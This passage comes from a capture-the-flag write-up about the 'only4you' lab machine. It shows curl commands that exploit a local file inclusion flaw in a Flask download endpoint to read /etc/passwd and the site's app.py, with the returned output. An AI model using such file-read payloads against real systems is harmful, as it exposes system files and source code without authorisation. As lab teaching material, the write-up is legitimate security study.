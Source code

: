 ```python
```

This LFI protection looks rather weak, so let's try to read `/etc/passwd`.

```
$ curl -X POST 'http://beta.only4you.htb/download' -d 'image=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```

This works! So we have LFI, and the rest of the code for `app.py` and `tool.py` look rather uninteresting. Instead, I tried to read the application files for the main website. Since the beta website is Flask based, I assumed the main website was Flask based as well. We can find the `app.py` file in `/var/www/only4you.htb/app.py`.

```python
$ curl -X POST 'http://beta.only4you.htb/download' -d 'image=/var/www/only4you.htb/app.py'
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

```